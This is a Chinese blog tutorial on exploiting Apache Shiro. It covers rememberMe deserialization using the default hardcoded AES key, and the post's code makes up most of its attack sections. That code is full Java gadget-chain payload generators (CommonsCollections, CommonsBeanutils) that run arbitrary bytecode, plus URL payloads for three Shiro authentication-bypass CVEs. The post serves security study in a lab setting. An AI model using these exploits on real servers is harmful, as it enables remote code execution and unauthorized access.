前言
shiro的作用：为了让浏览器或服务器重启后，不丢失用户登录状态，shiro将持久化信息序列化加密后保存在Cookie的rememberMe字段中，下次读取时进行解密，再反序列化
shiro的危险：但是在shiro1.2.4版本之前内置了一个默认且固定的加密Key，导致攻击者可以伪造任意的rememberMe Cookie然后触发反序列化漏洞
漏洞环境：
p牛的简单项目：
JavaThings/shirodemo at master · phith0n/JavaThings (github.com)
简单认识
分析

加密的key一直是固定的且明文
在对其进行加密的时候会生成随机的16字节长度的 iv，加密类型是 AES CBC

我们如果在登陆的时候选中了这个remember me选项就会返回一个cookie

我们尝试将这个解密
package ysoserial.vulndemo;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import java.util.Base64;
public class shiroDecode {
public static void main(String[] args) {
String key = "kPH+bIxk5D2deZiIxcaaaA==";
byte[] decode = Base64.getDecoder().decode(key);
AesCipherService aes = new AesCipherService();
String cookie = "/ktXzrB1Hv9C/AAl0pkKkbnQGJHK+xS3H5Rrp34Bx69XWP7GNJJRdQFqtNvrrCaDPCi5VnuE7JNuVFqOiDO5N/sAnMCUfkUZZ+cPN6ZrA7vAyuCpj6ID/hj0bwNpJUywElTHf1Xk6fGZqJB9Yo8TNFYlB80NISQK5Ly4abxWlOgDNXlJJA7xNjUhJovaSk8y295OLrNXYQx57uRI4/HYU0WvprStJhVW1/P+bYK63o8c+mlC+kfVdvyzowhx0Vupa4uD7GoY9YuZcOwnxHCxdLWxuruB/3VHTptq7tI3SZd9cHspxSjL4vdW0IwQ4niE1inJYhkNULPIrtcJ+xrTViOOnfWE0raRQ6XXR3JFh4hWdbj+t962z2g/vHAaE4faO+7Q54D5djWkTyNEexir0HmC832dORU4xQ4Fxr84Gicx8KE7dvtIgeH75w82glacYy8862D6bhiZHQKnyS9MWw+SvwLUvXcDCklm18wLBW6rg72Dm0749hZOmX7E8pv1";
byte[] bytes = Base64.getDecoder().decode(cookie);
ByteSource decrypt = aes.decrypt(bytes, decode);
System.out.println(decrypt.toString());
}
}
发现序列化的标志，会进行反序列化操作
这个demo里面有个cc链，我们尝试构建
package ysoserial.vulndemo;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
public class shiroTest {
public static class cc6 {
public byte[] getPayload(String command) throws Exception {
Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
Transformer[] transformers = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] { String.class,
Class[].class }, new Object[] { "getRuntime",
new Class[0] }),
new InvokerTransformer("invoke", new Class[] { Object.class,
Object[].class }, new Object[] { null, new Object[0] }),
new InvokerTransformer("exec", new Class[] { String.class },
new String[] { command }),
new ConstantTransformer(1),
};
Transformer transformerChain = new ChainedTransformer(fakeTransformers);
// 不再使用原CommonsCollections6中的HashSet，直接使用HashMap
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
Map expMap = new HashMap();
expMap.put(tme, "valuevalue");
outerMap.remove("keykey");
Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(transformerChain, transformers);
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(expMap);
oos.close();
return barr.toByteArray();
}
}
public static void main(String[] args) throws Exception {
cc6 cc = new cc6();
byte[] bytes = cc.getPayload("calc");
AesCipherService aesCipherService = new AesCipherService();
byte[] key = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
//加密操作
ByteSource encrypt = aesCipherService.encrypt(bytes, key);
System.out.println(encrypt.toString());
}
}
将得到一串经过base64加密后的恶意字符串传入

但是并没有执行恶意代码，而是报错了

p牛的总结：
如果反序列化流中包含非Java自身的数组，则会出现无法加载类的错误。这就
解释了为什么CommonsCollections6无法利用了，因为其中用到了Transformer数组。
构建不含数组的链子
JRMP协议
首先在vps上搭建一个JRMP服务端

之后在本地搭建一个JRMP客户端，接受返回的数据

嫖个脚本exp.py进行数据的shiro加密处理


将返回的exp传入，成功弹出了计算器

TiedMapEntry类key参数绕过
那怎么才能消除数组的影响呢？
在CC6中，一个关键的类TiedMapEntry，他的构造方法有两个参数

在构造CC6链子的时候只用了map参数，通过触发HashMap的readObject方法，进而求，调用了HashMap得hash方法，然后调用了key值得hashCode方法，如果这个key是TiedMapEntry类，就会调用他的hashCode方法，而他的hashCode方法调用了自己得getValue方法，在getValue方法中又调用了map得get方法，这个map就是他的构造方法得第一个参数，所以如果map是LazyMap，就会调用它的get方法，进而调用了transform方法，这就是完整的CC6利用链
但是第二个参数就可以在这绕过数组，不能使用数组，意味着不能使用ConstantTransformer，但是在LazyMap#get中的代码中，这里得key是直接传入得transform方法中，作用就和ConstantTransformer类似，我们只需要另一个来触发漏洞就行了
有两种方法：
使用CC3链中得动态加载字节码得利用方式中，使用
TemplatesImpl#newTransformer来进行漏洞利用
就简化成了只需要使用一个InvokerTransformer方法就可以实现利用package ysoserial.vulndemo; import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl; import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl; import javassist.CannotCompileException; import javassist.ClassPool; import javassist.NotFoundException; import org.apache.commons.collections.Transformer; import org.apache.commons.collections.functors.InvokerTransformer; import org.apache.commons.collections.keyvalue.TiedMapEntry; import org.apache.commons.collections.map.LazyMap; import org.apache.shiro.crypto.AesCipherService; import org.apache.shiro.util.ByteSource; import java.io.ByteArrayOutputStream; import java.io.IOException; import java.io.ObjectOutputStream; import java.lang.reflect.Field; import java.util.Base64; import java.util.HashMap; import java.util.Map; public class shiro_POC1 { public static void setFieldValue(Object obj, String fieldname, Object value) throws NoSuchFieldException, IllegalAccessException { Field field = obj.getClass().getDeclaredField(fieldname); field.setAccessible(true); field.set(obj, value); } public static byte[] getPayload() throws NotFoundException, IOException, CannotCompileException, NoSuchFieldException, IllegalAccessException { //恶意字节码得加载 byte[] bytes = ClassPool.getDefault().get("ysoserial.vulndemo.Calc").toBytecode(); //创建TemplatesImpl利用链 TemplatesImpl templates = new TemplatesImpl(); setFieldValue(templates, "_name", "RoboTerh"); setFieldValue(templates, "_tfactory", new TransformerFactoryImpl()); setFieldValue(templates, "_bytecodes", new byte[][]{bytes}); //创建一个无害的InvokerTransformer防止触发payload Transformer transformer = new InvokerTransformer("getClass", null, null); Map innerMap = new HashMap(); Map outMap = LazyMap.decorate(innerMap, transformer); TiedMapEntry tme = new TiedMapEntry(outMap, templates); Map expMap = new HashMap(); expMap.put(tme, "aaa"); //消除TiedMapEntry得影响 outMap.clear(); //将恶意transformer还原 setFieldValue(transformer, "iMethodName", "newTransformer"); //生成序列化字符串 ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream(); ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream); objectOutputStream.writeObject(expMap); objectOutputStream.close(); return byteArrayOutputStream.toByteArray(); } public static void main(String[] args) throws NotFoundException, IOException, CannotCompileException, NoSuchFieldException, IllegalAccessException { //生成shiro的payload byte[] payload = getPayload(); AesCipherService aes = new AesCipherService(); //key值得解码 byte[] key = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA=="); ByteSource encrypt = aes.encrypt(payload, key); System.out.println(encrypt); } }利用CC3链中得
TrAXFilter.class+Templates.class组合进行漏洞触发package ysoserial.vulndemo; import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl; import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter; import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl; import javassist.CannotCompileException; import javassist.ClassPool; import javassist.NotFoundException; import org.apache.commons.collections.Transformer; import org.apache.commons.collections.functors.ConstantTransformer; import org.apache.commons.collections.functors.InstantiateTransformer; import org.apache.commons.collections.keyvalue.TiedMapEntry; import org.apache.commons.collections.map.LazyMap; import org.apache.shiro.crypto.AesCipherService; import org.apache.shiro.util.ByteSource; import javax.xml.transform.Templates; import java.io.ByteArrayOutputStream; import java.io.IOException; import java.io.ObjectOutputStream; import java.lang.reflect.Field; import java.util.Base64; import java.util.HashMap; import java.util.Map; public class shiro_POC2 { public static void setFieldValue(Object obj, String fieldname, Object value) throws NoSuchFieldException, IllegalAccessException { Field field = obj.getClass().getDeclaredField(fieldname); field.setAccessible(true); field.set(obj, value); } public static byte[] getPayload() throws NoSuchFieldException, IllegalAccessException, NotFoundException, IOException, CannotCompileException { //恶意字节码得加载 byte[] bytes = ClassPool.getDefault().get("ysoserial.vulndemo.Calc").toBytecode(); //创建TemplatesImpl利用链 TemplatesImpl templates = new TemplatesImpl(); setFieldValue(templates, "_name", "RoboTerh"); setFieldValue(templates, "_tfactory", new TransformerFactoryImpl()); setFieldValue(templates, "_bytecodes", new byte[][]{bytes}); //创建 Transformer实例 Transformer faketransformer = new ConstantTransformer(1); Transformer transformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates}); //创建LazyMap 实例 HashMap innermap = new HashMap(); Map lazymap = LazyMap.decorate(innermap,faketransformer); //创建 TiedMapEntry实例 TiedMapEntry tme = new TiedMapEntry(lazymap, TrAXFilter.class); //创建readObject 入口 HashMap evilmap = new HashMap(); evilmap.put(tme,"jiang"); lazymap.clear(); setFieldValue(lazymap,"factory",transformer); //序列化 ByteArrayOutputStream baor = new ByteArrayOutputStream(); ObjectOutputStream oos = new ObjectOutputStream(baor); oos.writeObject(evilmap); oos.close(); return baor.toByteArray(); } public static void main(String[] args) throws NotFoundException, IOException, CannotCompileException, NoSuchFieldException, IllegalAccessException { //生成shiro的payload byte[] payload = getPayload(); AesCipherService aes = new AesCipherService(); //key值得解码 byte[] key = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA=="); ByteSource encrypt = aes.encrypt(payload, key); System.out.println(encrypt); } }
deepen
分析
在p牛的项目中，pom.xml中是有CC链的依赖的

我们将这依赖从pom.xml去掉
但是在其中仍然存在有CB链，所以shiro是依赖于commons-beanutils的
在传入CB链的payload的时候，会先报一个serialVersionUID错误
如果两个不同版本的库使用了同一个类，而这两个类可能有一些方法和属性有了变化，此时在序列化通
信的时候就可能因为不兼容导致出现隐患。因此，Java在反序列化的时候提供了一个机制，序列化时会
根据固定算法计算出一个当前类的 serialVersionUID 值，写入数据流中；反序列化时，如果发现对方
的环境中这个类计算出的 serialVersionUID 不同，则反序列化就会异常退出，避免后续的未知隐患所以，出现错误的原因就是，本地使用的commons-beanutils是1.9.2版本，而Shiro中自带的
commons-beanutils是1.8.3版本，出现了 serialVersionUID 对应不上的问题
但是本地换成对应得版本之后仍然会报一个没找到 org.apache.commons.collections.comparators.ComparableComparator
类错误
在分析CB链的时候，就说过，CB中的 BeanComparator在没有传入comparator的时候，默认使用的CC库中的comparator
需要使用JDK内部的实现了Comparator Serializable接口的类
- java.util.Collections$ReverseComparator
- java.lang.String$CaseInsensitiveComparator
搬用CB链那篇文章的POC
POC
package ysoserial.vulndemo;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.NotFoundException;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Collections;
import java.util.PriorityQueue;
public class shiro_POC_withoutCC {
public static void setFieldValue(Object obj, String fieldname, Object value) throws NoSuchFieldException, IllegalAccessException {
Field field = obj.getClass().getDeclaredField(fieldname);
field.setAccessible(true);
field.set(obj, value);
}
public static byte[] getPayload() throws NoSuchFieldException, IllegalAccessException, IOException, NotFoundException, CannotCompileException {
//动态创建字节码
byte[] bytes = ClassPool.getDefault().get("ysoserial.vulndemo.Calc").toBytecode();
TemplatesImpl templates = new TemplatesImpl();
setFieldValue(templates, "_name", "RoboTerh");
setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
//创建比较器
BeanComparator beanComparator = new BeanComparator();
PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
queue.add(1);
queue.add(1);
//反射赋值
setFieldValue(beanComparator, "property", "outputProperties");
//下面这两个二选一都可以
//setFieldValue(beanComparator, "comparator", String.CASE_INSENSITIVE_ORDER);
setFieldValue(beanComparator, "comparator", Collections.reverseOrder());
setFieldValue(queue, "queue", new Object[]{templates, templates});
//序列化
ByteArrayOutputStream baor = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baor);
oos.writeObject(queue);
oos.close();
return baor.toByteArray();
}
public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, NotFoundException, CannotCompileException {
byte[] payload = getPayload();
AesCipherService aes = new AesCipherService();
//key值得解码
byte[] key = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
ByteSource encrypt = aes.encrypt(payload, key);
System.out.println(encrypt.toString());
}
}更改CB版本之后就可以直接打了
权限绕过的CVE
CVE-2020-1957
利用 Apache Shiro 和 Spring Boot 对URL的处理的差异化，可以绕过 Apache Shiro 对 Spring Boot 中的 Servlet 的权限控制，越权并实现未授权访问
影响
Apache Shiro < 1.5.1
实例
对URL权限的配置如下：
@Bean
public ShiroFilterChainDefinition shiroFilterChainDefinition() {
DefaultShiroFilterChainDefinition chainDefinition = new DefaultShiroFilterChainDefinition();
chainDefinition.addPathDefinition("/login.html", "authc"); // need to accept POSTs from the login form
chainDefinition.addPathDefinition("/logout", "logout");
chainDefinition.addPathDefinition("/admin/**", "authc");
return chainDefinition;
}POC
构造恶意请求/xxx/..;/admin/，即可绕过权限校验，访问到管理页面
URL请求过程：
- 客户端请求URL:
/xxx/..;/admin/ - Shrio 内部处理得到校验URL为
/xxxx/..,校验通过 - SpringBoot 处理
/xxx/..;/admin/, 最终请求/admin/, 成功访问了后台请求。
CVE-2020-11989
影响
Apache Shiro < 1.5.3
实例
@Configuration
public class ShiroConfig {
@Bean
MyRealm myRealm() {
return new MyRealm();
}
@Bean
SecurityManager securityManager() {
DefaultWebSecurityManager manager = new DefaultWebSecurityManager();
manager.setRealm(myRealm());
return manager;
}
@Bean
ShiroFilterFactoryBean shiroFilterFactoryBean() {
ShiroFilterFactoryBean bean = new ShiroFilterFactoryBean();
bean.setSecurityManager(securityManager());
bean.setLoginUrl("/login");
bean.setSuccessUrl("/index");
bean.setUnauthorizedUrl("/unauthorizedurl");
Map<String, String> map = new LinkedHashMap<>();
map.put("/hello/*", "authc");
bean.setFilterChainDefinitionMap(map);
return bean;
}
}POC
/;/admin
/admin/a%25%32%66a/ -> %2f ->%25%32%66当进入应用后我们的请求页面被解析成/hello/a%2fa，所以它可以进入到spring controller中的/hello/{name}，但是因为shiro再次做了url解码，导致判断的uri成为了/hello/a/a 它不属于我们配置的权限判断地址/hello/*
Tomcat 判断 /;test/admin/page 为 test 应用下的 /admin/page 路由，进入到 Shiro 时被 ; 截断被认作为 / ,再进入 Spring 时又被正确处理为 test 应用下的 /admin/page 路由，最后导致 Shiro 的权限绕过
CVE-2020-13933
影响
Apache Shiro < 1.6.0
实例
@Configuration
public class ShiroConfig {
@Bean
public MyRealm myRealm()
{
return new MyRealm();
}
@Bean
public SecurityManager securityManager() {
DefaultWebSecurityManager manager = new DefaultWebSecurityManager();
manager.setRealm(myRealm());
return manager;
}
//filter工厂.设置对应的过滤条件和跳转条件
@Bean
public ShiroFilterFactoryBean shiroFilter() {
ShiroFilterFactoryBean bean = new ShiroFilterFactoryBean();
// 设置 SecurityManager
bean.setSecurityManager(securityManager());
bean.setLoginUrl("/login");
Map<String, String> filterMap = new LinkedHashMap<>();
// anon：匿名用户可访问
filterMap.put("/login","anon");
// authc：认证用户可访问
filterMap.put("/read/*", "authc");
bean.setFilterChainDefinitionMap(filterMap);
return bean;
}
}POC
/read/%3baaa
参考
http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html
《Java安全漫谈》
Java安全之shiro反序列化 · 语雀 (yuque.com)
Java反序列化利用链分析之Shiro反序列化 - 安全客，安全资讯平台 (anquanke.com)
(19条消息) Apache Shiro 认证绕过漏洞 CVE-2020-1957 漏洞复现_Senimo_的博客-CSDN博客_cve_2020_1957
Apache Shiro 身份验证绕过漏洞 (CVE-2020-11989) - 腾讯安全玄武实验室 (tencent.com)


- Post link: https://roboterh.github.io/2022/04/16/shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.